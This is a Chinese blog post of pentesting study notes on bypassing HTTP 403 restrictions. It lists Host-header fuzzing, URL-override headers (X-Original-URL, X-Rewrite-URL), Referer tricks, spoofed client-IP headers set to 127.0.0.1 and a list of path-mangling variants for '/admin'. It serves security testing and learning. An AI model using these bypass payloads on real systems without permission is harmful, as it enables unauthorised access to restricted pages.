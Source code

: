 ```yaml
---
title: 渗透测试如何利用403
comments: true
date: 2022-02-08 11:19:26
tags: ["渗透测试", "403"]
categories:
- 渗透测试
cover: https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/403.png
top_img:
description:
---
```




今天面试问到这个问题了，我大概是知道怎么利用，就是说不太出来...哎还是用文字总结一下吧！



## 1.端口利用

扫描主机端口，找其它开放web服务的端口，访问其端口，挑软柿子。





## 2.修改HOST

**Host在请求头中的作用：**在一般情况下，几个网站可能会部署在同一个服务器上，或者几个 web 系统共享一个服务器，通过host头来指定应该由哪个网站或者web系统来处理用户的请求。

而很多WEB应用通过获取HTTP HOST头来获得当前请求访问的位置，但是很多开发人员并未意识到HTTP HOST头由用户控制，从安全角度来讲，任何用户输入都是认为不安全的。



修改客户端请求头中的 Host 可以通过**修改 Host 值**修改为子域名或者ip来绕过来进行绕过二级域名；



**首先**对该目标域名进行子域名收集，整理好子域名资产（host字段同样支持IP地址）。先Fuzz测试跑一遍收集到的子域名，这里使用的是Burp的Intruder功能。若看到一个服务端返回200的状态码，即表面成功找到一个在HOST白名单中的子域名。我们利用firefox插件来修改HOST值，成功绕过访问限制。







## 3.覆盖请求 URL

尝试使用 **X-Original-URL** 和 X-Rewrite-URL 标头绕过 Web 服务器的限制。

通过支持 X-Original-URL 和 X-Rewrite-URL 标头，用户可以使用 X-Original-URL 或 X-Rewrite-URL HTTP 请求标头**覆盖请求 URL 中的路径，尝试绕过对更高级别的缓存和 Web 服务器的限制**

```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
X-Original-URL: /auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET / HTTP/1.1
X-Rewrite-URL: /auth/login
Response
HTTP/1.1 200 OK

```





## 4.Referer 标头绕过

尝试使用 Referer 标头绕过 Web 服务器的限制。

介绍：Referer 请求头包含了当前请求页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。服务端一般使用 Referer 请求头识别访问来源。

```
Request
GET /auth/login HTTP/1.1
Host: xxx
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
Host: xxx
ReFerer:https://xxx/auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET /auth/login HTTP/1.1
Host: xxx
ReFerer:https://xxx/auth/login
Response
HTTP/1.1 200 OK

```





## 5.代理 IP

一般开发者会通过 Nginx 代理识别访问端 IP 限制对接口的访问，尝试使用 X-Forwarded-For、X-Forwared-Host 等标头绕过 Web 服务器的限制。

```bash
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwared-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1

```

如：

```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 401 Unauthorized

Reqeust
GET /auth/login HTTP/1.1
X-Custom-IP-Authorization: 127.0.0.1
Response
HTTP/1.1 200 OK

```





## 6.扩展名绕过

基于扩展名，用于绕过 403 受限制的目录。

```
site.com/admin => 403
site.com/admin/ => 200
site.com/admin// => 200
site.com//admin// => 200
site.com/admin/* => 200
site.com/admin/*/ => 200
site.com/admin/. => 200
site.com/admin/./ => 200
site.com/./admin/./ => 200
site.com/admin/./. => 200
site.com/admin/./. => 200
site.com/admin? => 200
site.com/admin?? => 200
site.com/admin??? => 200
site.com/admin..;/ => 200
site.com/admin/..;/ => 200
site.com/%2f/admin => 200
site.com/%2e/admin => 200
site.com/admin%20/ => 200
site.com/admin%09/ => 200
site.com/%20admin%20/ => 200

```



## 7.扫描的时候

遇到 403 了，上目录扫描工具，扫目录，扫文件（<font color=red>记住，扫描的时候要打开探测403，因为有些网站的目录没有权限访问会显示403，但是在这个目录下面的文件，我们或许能扫描到并访问</font> ）









